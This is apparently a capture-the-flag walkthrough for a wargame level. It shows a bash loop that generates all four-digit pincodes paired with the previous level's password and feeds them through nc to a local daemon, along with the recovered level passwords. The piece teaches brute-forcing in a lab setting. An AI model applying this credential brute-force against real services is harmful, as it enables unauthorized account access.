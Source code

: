 ## Bandit Level 25 — Brute Forcing the Pincode

### Description

A daemon is listening on port `30002` and will give you the password for `bandit25` if given the password for `bandit24` and a **secret numeric 4-digit pincode**. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

### Walkthrough

Let’s try to connect to the daemon using `nc`:
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
Ok let's brute-force the pincode.
First we need to make all of the possible combinations:
```bash
bandit24@bandit:~$ mktemp -d
/tmp/tmp.3G87r5649B$
bandit24@bandit:~$ cd /tmp/tmp.3G87r5649B
bandit24@bandit:/tmp/tmp.3G87r5649B$ vim script.sh
```
I wrote this script to make all the password + pincode combinations and store it in a file:
```bash
#!/bin/bash

password="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for pin in $(seq -w 0000 9999); do
        echo "$password $pin" >> combinations.txt
done
```
Now we need to feed this file to the daemon:
```bash
bandit24@bandit:/tmp/tmp.3G87r5649B$ nc localhost 30002 < combinations.txt
...
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```
Perfect we got the password but I'm curious what was the pincode:
```bash
bandit24@bandit:/tmp/tmp.3G87r5649B$ nc localhost 30002 < combinations.txt | wc -l
2223
```
- `wc -l` tells us how many lines of output were produced by the command, which almost corresponds to the number of attempts made to guess the pincode.

Hmm, if we omit the blank line, the password line and the `Correct` message line, we can guess that `2220` pincodes were tried to reach the correct pincode; meaning the pincode is `2219` (because the pincode combinations started from `0000`).
```bash
bandit24@bandit:/tmp/tmp.3G87r5649B$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 2219
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```